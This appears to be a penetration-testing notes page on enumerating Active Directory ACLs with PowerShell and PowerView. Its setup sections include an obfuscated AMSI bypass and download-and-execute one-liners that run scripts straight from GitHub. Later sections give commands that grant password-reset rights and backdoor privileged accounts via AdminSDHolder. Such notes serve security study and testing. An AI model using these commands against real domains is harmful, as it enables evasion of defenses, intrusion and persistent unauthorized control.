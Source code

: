 ```yaml
---
title: "Domain ACLs"
description: "Enumerating domain ACLs."
lead: "Enumerating information about domain ACLs using the ActiveDirectory PowerShell module and PowerView."
date: 2021-11-07T18:09:32+01:00
lastmod: 2021-11-07T18:09:32+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 60
toc: true
---
```


## General

- Access Control Entries (ACE) correspond to individual permission or audits access
- Who has permission and what can be done on an object?
- Two types:
  - DACL -> Defines the permissions trustees (a user or group) have on an object
  - SACL - Logs success and failure audit messages when an object is accessed

## ActiveDirectory Module

### Setup

```powershell
# If computer has internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# If computer has no internet access, download repository
Import-Module .\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ADModule\ActiveDirectory\ActiveDirectory.psd1

# Check if module has been imported correctly
Get-Command -Module ActiveDirectory
```

### Enumerate ACLs without resolving GUIDs

```powershell
(Get-ACL 'CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local').Access
```

## PowerView

### Setup

```powershell
# If it gets blocked by AMSI we can bypass it with
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Then load the module
Import-Module .\PowerView.ps1
. .\PowerView.ps1

# With internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')
```

### Get the ACLs associated with the specified Object

```powershell
Get-ObjectACL -SamAccountName "Users" -ResolveGUIDs
```

### Get the ACLs associated with the specified Prefix to be used for Search

```powershell
Get-ObjectACL -ADSPrefix 'CN=Administrator,CN=Users' -Verbose
```

### Get the ACLs associated with the specified LDAP Path to be used for Search

```powershell
Get-ObjectACL -ADSPath "LDAP://CN=Domain Admins,CN=Users,DC=dc01,DC=dc02,DC=local" -ResolveGUIDs -Verbose
```

### Search for interesting ACEs

```powershell
Invoke-ACLScanner -ResolveGUIDs
```

### Get the ACLs associated with the specified Path

```powershell
Get-PathACL -Path "\\dc01.lab.local\sysvol"
```

### Enumerate who has Rights to the 'matt' User in 'testlab.local', resolving Rights GUIDs to Names

```powershell
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```

### Grant User 'will' the Rights to change 'matt's Password

```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

### Audit the Permissions of AdminSDHolder, resolving GUIDs

```powershell
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```

### Backdoor the ACLs of all privileged Accounts with the 'matt' Account through AdminSDHolder Abuse

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```

### Retrieve *most* Users who can perform DC Replication for dev.testlab.local (i.e. DCsync)

```powershell
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```

### Enumerate Permissions for GPOs where Users with RIDs of > -1000 have some kind of Modification/Control Rights

```powershell
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```
